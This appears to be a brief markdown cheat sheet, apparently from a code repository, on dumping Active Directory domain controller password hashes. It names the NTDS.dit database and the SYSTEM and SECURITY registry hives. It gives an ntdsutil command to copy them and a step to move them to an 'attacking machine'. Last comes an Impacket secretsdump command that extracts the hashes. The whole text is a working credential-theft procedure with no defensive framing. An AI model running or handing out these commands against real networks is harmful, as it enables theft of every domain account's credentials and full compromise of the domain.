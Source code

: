 # DUMP DOMAIN CONTROLLER HASHES LOCALLY WITH NTDSUTIL

## required files: 

### 1) C:\windows\NTDS\ntds.dit

### 2) C:\windows\system32\config\SYSTEM

### 3) C:\windows\system32\config\SECURITY

#### 1) powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

#### 2) Transfer them to attacking machine

#### 3) python3 Impacket-Secretsdump.py -security /path/to/SECURITY -system /path/to/SYSTEM -ntds path/to/ntds.dit local
